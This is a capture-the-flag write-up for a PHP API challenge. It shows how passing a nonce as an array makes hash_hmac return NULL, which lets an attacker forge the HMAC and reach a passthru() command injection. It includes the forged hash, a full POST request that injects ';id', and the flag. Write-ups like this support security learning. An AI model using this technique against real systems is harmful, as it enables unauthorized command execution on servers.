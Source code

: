 # REST in Pieces

> Our insider intern discovered an unauthenticated API endpoint within the database appliance. Along with this information we were able to exfiltrate a code snippet of this endpoint. You can find it on [kleber.io](https://kleber.io/N4WpasYseeLIK3qTZgVdBeN_17fxebJmbb4ILA) or [pastebin](https://pastebin.com/PrRPtVGx). Locate and examine the endpoint.

## Table of Contents

1. [Information Gathering](#information-gathering)
2. [Source Code Analysis](#source-code-analysis)
3. [Proof-of-Concept](#proof-of-concept)
4. [Exploiting the vulnerability](#exploiting-the-vulnerability)
5. [TL;DR](#tldr)
6. [References](#references)

## Information Gathering

In the beginning we were given the [source code](code.php) of the API-Endpoint [/api/vegan/rest](https://db.fishbowl.tech/api/vegan/rest) and also an image of [tomatoes](images/rest.jpg) - I still do not know what the image is about but I guess it was meant to be a hint.

If we visit the endpoint, we are receiving an ASCII-tomato which is changing the text in the speech bubble every time we reload the page.

![](images/tomato.png)

I was not too focused on the [rest.jpg](images/rest.jpg) or the ASCII-tomato itself though I looked if anything was hidden in rest.jpg but did not investigate furthermore.

## Source Code Analysis

My major focus was on the given [source code](code.php). First I skimmed through the source code tried to get a basic understanding of what it is doing. I looked at the possible inputs and where these inputs lead to. The three user-controlled inputs were `nonce`,`hash` and `action`.
Then I went over and checked what the if-statements were doing. First one was triggered when `action` was not given, the second one was triggered when `hash` was not given and when the `algo`-variable was not in the HMAC-algorithms but that was first of all not interesting because the algorithm itself is hardcoded and not user-controlled and secondly the algorithm `sha256` is in `hash_hmac_algos()`.

Moving on to the last two if-statements, we trigger these if all other if-statements have not failed yet. The third if-statement was more interesting than the previous two. This one was checking if `nonce` was not empty and then hashing a new `$secret` with `hash_hmac()`.
```php
$secret = hash_hmac($command['algo'], $command['nonce'], $secret);
```
We know that we can just control the `nonce` here, the `algo`-variable is already given and we don't know `$secret`. We are also aware that HMAC is relatively secure, so the hashing itself is not insecure.
So I went on looking at the last if-statement and this one was basically hashing with `hash_hmac()` this time with the given `$secret` from the previous if-statement and comparing the result to the user-provided `hash` variable. If the server-side hash and the user-provided hash were not identical, we would get a 401 error.
Only if all if-statements passed, we could reach `passthru($command['action']);` and inject our command.

## Proof-of-Concept

Nevertheless, I started, as always, with visiting the [HMAC-documentation page](https://secure.php.net/manual/de/function.hash-hmac.php) for PHP and started reading my way from top to bottom. The comment-section was more interesting this time. Especially the comment by `Korbendallas` :

![](images/comment.png)

This would mean that we could pass `nonce` as an array and therefore control the `$secret`. I tested this out in with the interactive console of PHP using `php -a` and the result was as expected NULL. The more interesting question here was now if `NULL` was a valid secret-key. Easier said than done:
```php
var_dump(hash_hmac('sha256','asfdafasdf', NULL));
```
```
string(64) "bfb1ec78de1ea7209919fb3c379538ca7f5b6e185774c8e53a81e9daaeaf41e9"
```

Yes, `NULL` is valid secret-key, thus we can predict the the server-side generated hash.

So our predictable hash would look like this:
```php
var_dump(hash_hmac('sha256',';id', NULL));
```
```
string(64) "58dedd736c5af324a198c6c663e569df59691854d1f53d704bdbce40f1d139c1"
```

## Exploiting the vulnerability

Now we have our crafted hash and that is everything we need to solve this challenge.
Our POST-request contains an array as `nonce`, the `hash`-variable is the hash above and the `action` is base64 encoded `;id` because in line 23 of our source code is the `action`-variable being base64 decoded.

Our finished POST-request would look like this:
```
POST /api/vegan/rest HTTP/1.1
Host: db.fishbowl.tech
Content-Length: 91
Content-Type: application/x-www-form-urlencoded

hash=58dedd736c5af324a198c6c663e569df59691854d1f53d704bdbce40f1d139c1&action=O2lk&nonce[]=1
```

Let us see what we receive from the server:

![](images/flag_response.png)

This is how the flag looks like:

```
-----BEGIN FISHBOWL FLAG-----
aDCgh/YAd4HikuBgcD/LrXucO0h7KuAM0yarlnRwce/RYtGc
rXDb8DFI6Vz/TShYvCIKe1yv+ZiMFbqHnxvCOFBC3sxQ0TsF
i3+j8hwD6LsV4lJIKKOylcWRnPqe8Xtl0r7QumNpVOaJKKgc
Mcb5QBGUVvpiyDzDrvBphCaFJEGnkVICW0GeyBJ03Ruh0D2o
mXwHTaPT5dBqGj3Khcea2C2wzpe/wbLail7cqQWv5s2dKbr0
d+q5qq1FQ1i2vam7HluywapWAc9tjw7GC0H+j0sz9QYtsrQw
5SA0ZFeVhL9DsXMcxacTv5xU1T4mFpRrk72ACO0DYY9PADiI
WW1AJ4JPdZIgLNA3DdYrS5U/akWzTP6docd9zv1t59HJO4ke
/VpACBLjLTVijN79H0w0vDK+gwSAVg2hO5eNQnG2MYPUB6k+
kwQAaVFpDeaoOIPkSprquBhEVPl6ifz+wrkhEzod6P3CVnUy
oVXvRa6k6vM74rjqTKJM7To3glTZ2CHobVV43WZXN9objuqD
oE4fdEgJcbfSgnq5kgnKruz/m8vwHTRjR9DqZDZbRbMOPKn9
dNo16m4M3OXv0vL/Q+RGbCHUw/kNYPgCbRqsMByu/dFLTUFX
vUlvwq7/msnlnfP2Nl4fDGjCCQhGEorRUnnlpq3lczBHYFS8
y9JTAAG9tHQ=
-----END FISHBOWL FLAG-----
```

**Yes, we did it! We got the flag! :smile:**

![](images/yay.gif)

## TL;DR

Passing `nonce` as an array causes the first HMAC to return `NULL` which lets us control `$secret`. This gives us the ability to predict the outcome of the next HMAC because `NULL` is a valid secret-key. Therefore we can locally hash our `action` with the `$secret = NULL` and pass it as our `hash` value to the server along with the base64 encoded `action` variable and our `nonce` array.

## References

* [PHP's HMAC Documentation page](https://secure.php.net/manual/de/function.hash-hmac.php)
* [LiveOverflow - Let’s play a game: what is the deadly bug here?](http://www.youtube.com/watch?v=MpeaSNERwQA)
* [A great blog article explaining the behavior of HMAC with NULL as the key](https://www.securify.nl/en/blog/SFY20180101/spot-the-bug-challenge-2018-warm-up.html)
